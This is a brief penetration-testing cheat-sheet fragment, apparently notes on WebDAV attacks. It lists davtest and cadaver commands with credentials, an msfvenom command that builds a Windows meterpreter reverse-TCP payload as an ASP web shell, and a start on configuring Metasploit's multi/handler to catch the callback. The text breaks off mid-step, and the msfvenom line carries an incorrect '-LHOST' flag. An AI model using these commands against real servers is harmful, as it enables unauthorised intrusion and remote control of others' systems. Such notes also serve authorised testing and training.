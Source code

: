 ```bash
davtest -url [url] -auth [user]:[pass]

cadaver [url]
```

## MSF
```bash
msfvenom -p windows/meterpreter/reverse_tcp -LHOST=[localhost IP] -LPORT=[localhost PORT] -f [asp|aspx] > cmdshell.asp 
```

Into the msfconsol
```bash
use multi/handler
```

Config the multi-handler